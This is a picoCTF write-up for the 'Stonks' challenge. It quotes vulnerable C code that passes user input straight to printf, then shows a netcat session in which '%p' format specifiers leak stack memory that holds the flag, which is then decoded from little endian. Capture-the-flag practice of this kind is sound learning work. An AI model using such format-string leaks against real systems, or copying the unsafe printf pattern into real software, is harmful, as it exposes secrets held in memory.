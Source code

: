 # Challenge: [Stonks](https://play.picoctf.org/practice/challenge/105)
20 Points
# Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! 
# Solution
To start with, I read the provided file [vuln.c](./vuln.c) and find something could be exploited:

```python
int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
This has a format string vulnerability, author used printf(user_buf) but didn't determine kind of output formats. Due to *user_buf* is variable I enter, I could exploit the programe by using it, just read the result of fgets().

```sh
──(kali㉿kali)-[~/picoCTF/Stonks]
└─$ nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p
Buying stonks with token:
0x9db84900x804b0000x80489c30xf7f7ed800xffffffff0x1
Portfolio as of Fri Jan 27 16:46:25 UTC 2023


2 shares of Y
2 shares of LL
10 shares of WZC
4 shares of OPF
2 shares of Y
19 shares of TR
6 shares of VM
91 shares of LNOL
66 shares of KHS
18 shares of PQ
70 shares of W
261 shares of QG
412 shares of X
Goodbye!

```

Actually, I don't know how many '%p' need to import so I try a long string about 30 %p. 

The hex string I receive displayed in Litte Endian, therefore, I should convert it to Big Endian to get the flag.

I write a script to send my request and decode the flag [solve.py](./solve.py)

The flag is: picoCTF{*********************}